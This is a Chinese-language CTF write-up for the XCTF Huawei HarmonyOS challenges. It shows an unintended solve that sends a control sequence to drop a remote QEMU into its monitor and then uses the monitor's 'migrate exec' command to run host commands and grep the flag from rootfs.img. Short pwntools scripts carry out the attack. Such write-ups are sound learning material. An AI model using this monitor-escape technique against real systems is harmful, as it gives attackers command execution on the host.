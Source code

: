 ```yaml
---
title: XCTF 华为高校挑战赛决赛 HarmonyOS赛题 非预期解
categories:
- CTF/Pwn
tags: 
---
```


> 总共5道HarmonyOS赛题，全部非预期...

![image](https://xuanxuanblingbling.github.io/assets/pic/huawei/rank.png)

- 附件：[XCTF-harmonyOS.zip](https://xuanxuanblingbling.github.io/assets/attachment/huawei/XCTF-harmonyOS.zip)

## 用户态赛题

所有的启动脚本中，qemu都没有关monitor（-monitor /dev/null）：

```c
./qemu-system-arm -M hi3518 -kernel liteos.bin -nographic
```

所以可以直接发送控制字符组合（`b"\x01c"`），使得远程的qemu进入monitor模式，然后即可执行qemu外的系统命令：

```python
from pwn import *
context(log_level='debug')

io =remote("172.35.7.36",9999)
io.send(b"\x01c")
io.interactive()
```

这种打法经常出现在qemu逃逸题目中非预期中，flag一般直接可以查看到，但本题的flag在harmonyOS的文件系统中，所以要重点关注rootfs.img

- 解包工具：[jefferson](https://github.com/sviehb/jefferson)
- 解包用法：`jefferson rootfs.img -d ./xxx`
- 固件打包： `mkfs.jffs2 -d ./xxx -o rootfs.img`

### unsql

可以执行本机命令后，尝试直接strings题目文件系统即可看到flag：

```python
from pwn import *
context(log_level='debug')

io =remote("172.35.7.36",9999)
io.send(b"\x01c")
sleep(1)
io.sendline(b"")
io.sendlineafter("(qemu) ",'migrate "exec: strings /rootfs.img | grep flag"')
io.interactive()
```
